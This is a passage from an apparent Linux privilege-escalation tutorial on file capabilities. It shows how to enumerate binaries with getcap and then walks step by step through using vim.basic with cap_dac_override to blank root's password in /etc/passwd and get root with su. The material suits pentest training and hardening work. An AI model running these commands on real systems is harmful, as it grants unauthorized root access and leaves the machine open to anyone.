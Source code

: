 | **cap\_setgid**             | Change effective GID.                                       |
| **cap\_dac\_override**      | Bypass file read/write/execute permission checks.           |

## Enumerating Capabilities

* Check binaries with special capabilities:

```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

**Example Output:**

```
/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

## Exploitation Example

### Step 1 – Check binary capabilities:

```bash
getcap /usr/bin/vim.basic
/usr/bin/vim.basic cap_dac_override=eip
```

### Step 2 – Use capability to edit restricted files:

```bash
/usr/bin/vim.basic /etc/passwd
```

### Step 3 – Non-interactive privilege escalation:

```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```

### Step 4 – Verify change:

```bash
cat /etc/passwd | head -n1
root::0:0:root:/root:/bin/bash
```

* The password field for root is now empty → login as root without password:

```bash
su
```

---
